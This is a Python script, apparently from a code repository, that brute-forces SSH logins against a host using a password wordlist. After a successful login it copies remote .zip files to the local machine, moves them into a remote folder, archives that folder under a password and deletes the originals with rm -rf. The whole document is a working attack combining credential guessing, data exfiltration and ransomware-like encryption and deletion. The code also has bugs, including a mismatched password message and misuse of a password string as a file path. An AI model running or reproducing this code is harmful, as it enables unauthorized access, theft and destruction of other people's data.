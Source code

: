 #!/usr/bin/env python3
# Script is for fun 
# Resources Google, Bard, ChatGPT

import paramiko #install with pip install paramiko
import os
from paramiko import SSHClient, AutoAddPolicy
from scp import SCPClient # Install with pip install scp



def brute_force_ssh(hostname, username, password_file):
    # Create an SSH client instance
    client = paramiko.SSHClient()
    port = 22
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    # Open the password file
    with open(password_file, 'r') as f:
        # Loop through each line in the file
        for password in f:
            password = password.strip()  # Remove leading/trailing whitespaces and newline characters
            print(f"Trying password: {password}")
            # Attempt SSH connection with the password
            try:
                client.connect(hostname, port, username, password)

                # Print the current working directory   
                stdin, stdout, stderr = client.exec_command("pwd")
                output = stdout.read().decode().strip()
                print(f"Current working directory: {output}")

                # List files and search for .zip files
                stdin, stdout, stderr = client.exec_command("find . -name '*.zip'")
                zip_files = stdout.read().decode().strip().split('\n')
                print("Found zip files:")
                for zip_file in zip_files:
                    print(zip_file)

                    # Create a new folder named 'itworked' on the local machine if it doesn't exist
                    local_folder_path = os.path.join(os.getcwd(), "itworked")
                    if not os.path.exists(local_folder_path):
                        os.makedirs(local_folder_path)

                    # Define the local path where the zip file will be copied
                    local_copy_path = os.path.join(local_folder_path, os.path.basename(zip_file))

                    # Copy the zip file from the remote server to the local machine
                    with SCPClient(client.get_transport()) as scp:
                        scp.get(zip_file, local_copy_path)
                    
                    print(f"Successfully copied {zip_file} to {local_copy_path}")

                    # Create a new folder named 'minenow' on the remote machine if it doesn't exist
                    remote_folder_path = "/home/will/minenow"
                    create_folder_command = f"mkdir -p {remote_folder_path}"
                    client.exec_command(create_folder_command)

                    # Move the zip file to the 'minenow' folder
                    move_command = f"mv {zip_file} {remote_folder_path}"
                    client.exec_command(move_command)
                    print(f"Successfully moved {zip_file} to {remote_folder_path}")

                # Encrypt the 'minenow' folder with password 'password1234'
                zip_command = f"zip -r -P {password} {remote_folder_path}.zip {remote_folder_path}"
                client.exec_command(zip_command)
                print(f"Successfully encrypted {remote_folder_path} to {remote_folder_path}.zip with password 'password1234'")

                # Delete the original .zip files
                delete_command = f"rm -rf {remote_folder_path}"
                client.exec_command(delete_command)
                print(f"Successfully deleted the original files in {remote_folder_path}")

                break  # Exit the loop after finding and processing the files
            except Exception as e:
                print(f"Error: {e}")
        else:
            # No valid password found if the loop completes without successful authentication
            print("No valid password found.")

    # Close the SSH connection
    client.close()

def main():
    # Prompt user for SSH connection details
    hostname = input("Enter the hostname or IP address of the remote server (default: 192.168.50.30): ") or '192.168.50.30'
    username = input("Enter your username (default: will): ") or 'will'
    password = input("Enter your password (press Enter to skip): ")

    if password:
        brute_force_ssh(hostname, username, password)
    else:
        password_file = input("Enter the path to the password file (default: rockyou.txt): ") or 'rockyou.txt'
        brute_force_ssh(hostname, username, password_file)

if __name__ == "__main__":
    main()

